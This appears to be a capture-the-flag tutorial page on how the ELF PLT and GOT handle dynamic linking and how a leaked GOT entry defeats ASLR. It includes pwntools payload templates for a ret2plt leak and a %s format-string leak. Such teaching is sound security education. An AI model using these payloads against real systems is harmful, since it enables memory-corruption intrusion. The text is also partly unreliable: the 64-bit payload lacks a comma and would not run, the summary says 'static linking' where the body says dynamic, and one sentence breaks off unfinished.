 ```yaml
---
description: Bypassing ASLR
---
```


# PLT and GOT

The PLT and GOT are sections within an ELF file that deal with a large portion of the **dynamic linking**. Dynamically linked binaries are more common than statically linked binary in CTFs. The purpose of **dynamic linking** is that binaries do not have to carry all the code necessary to run within them - this reduces their size substantially. Instead, they rely on system libraries (especially `libc`, the C standard library) to provide the bulk of the functionality.\
For example, each ELF file will not carry their own version of `puts` compiled within it - it will instead dynamically link to the `puts` of the system it is on. As well as smaller binary sizes, this also means the user can continually upgrade their libraries, instead of having to redownload all the binaries every time a new version comes out.

#### So when it's on a new system, it replaces function calls with hardcoded addresses?

Not quite.

The problem with this approach is it requires `libc` to have a constant base address, i.e. be loaded in the same area of memory every time it's run, but remember that [_**ASLR**_](https://en.wikipedia.org/wiki/Address_space_layout_randomization) exists. Hence the need for _dynamic_ linking. Due to the way ASLR works, these addresses need to be resolved _every time the binary is run_. Enter the PLT and GOT.

## The PLT and GOT

The PLT (**Procedure Linkage Table**) and GOT (**Global Offset Table**) work together to perform the linking.

When you call `puts()` in C and compile it as an ELF executable, it is not _actually_ `puts()` - instead, it gets compiled as `puts@plt`. Check it out in GDB:

![](../../../.gitbook/assets/puts_plt.png)

Why does it do that?

Well, as we said, it doesn't know where `puts` actually is - so it jumps to the PLT entry of `puts` instead. From here, `puts@plt` does some very specific things:

* If there is a GOT entry for `puts`, it jumps to the address stored there.
* If there isn't a GOT entry, it will resolve it and jump there.

The GOT is a _massive_ table of addresses; these addresses are the actual locations in memory of the `libc` functions. `puts@got`, for example, will contain the address of `puts` in memory. When the PLT gets called, it reads the GOT address and redirects execution there. If the address is empty, it coordinates with the `ld.so` (also called the **dynamic linker/loader**) to get the function address and stores it in the GOT. This is done by calling `_dl_runtime_resolve` (this is explained in more detail in the [ret2dlresolve](../ret2dlresolve/) section).

## How is this useful for binary exploitation?

Well, there are two key takeaways from the above explanation:

* Calling the PLT address of a function is equivalent to calling the function itself
* The GOT address contains addresses of functions in `libc`, and the GOT is within the binary.

The use of the first point is clear - if we have a PLT entry for a desirable `libc` function, for example `system`, we can just redirect execution to its PLT entry and it will be the equivalent of calling `system` directly; no need to jump into `libc`.

The second point is less obvious, but debatably even more important. As the GOT is part of the binary, it will always be a constant offset away from the base. Therefore, if PIE is disabled or you somehow leak the binary base, you know the exact address that contains a `libc` function's address. If you perhaps have an arbitrary read, it's trivial to leak the real address of the `libc` function and therefore bypass ASLR.

## Exploiting an Arbitrary Read

There are two main ways that one can exploit an arbitrary read for a stack exploit. Note that these approaches will cause not only the GOT entry to be return but _everything else until a null byte is reached_ as well, due to strings in C being null-terminated; make sure you only take the required number of bytes.

### ret2plt

A **ret2plt** is a common technique that involves calling `puts@plt` and passing the GOT entry of puts as a parameter. This causes `puts` to print out its own address in `libc`. You then set the return address to the function you are exploiting in order to call it again and enable you to

```python
# 32-bit ret2plt
payload = flat(
    b'A' * padding,
    elf.plt['puts'],
    elf.symbols['main'],
    elf.got['puts']
)

# 64-bit
payload = flat(
    b'A' * padding,
    POP_RDI,
    elf.got['puts']
    elf.plt['puts'],
    elf.symbols['main']
)
```

{% hint style="info" %}
`flat()` packs all the values you give it with `p32()` and `p64()` (depending on context) and concatenates them, meaning you don't have to write the packing functions out all the time
{% endhint %}

### %s format string

This has the same general theory but is useful when you have limited stack space or a ROP chain would alter the stack in such a way to complicate future payloads, for example when stack pivoting.

```python
payload = p32(elf.got['puts'])      # p64() if 64-bit
payload += b'|'
payload += b'%3$s'                  # The third parameter points at the start of the buffer


# this part is only relevant if you need to call the function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])

# Send it off...

p.recvuntil(b'|')                   # This is not required
puts_leak = u32(p.recv(4))          # 4 bytes because it's 32-bit
```

## Summary

* The PLT and GOT do the bulk of static linking
* The PLT resolves actual locations in `libc` of functions you use and stores them in the GOT
  * Next time that function is called, it reads the address in GOT entry and calls it
* Calling `function@plt` is equivalent to calling the function itself
* An arbitrary read enables you to read the GOT and thus bypass ASLR by calculating `libc` base
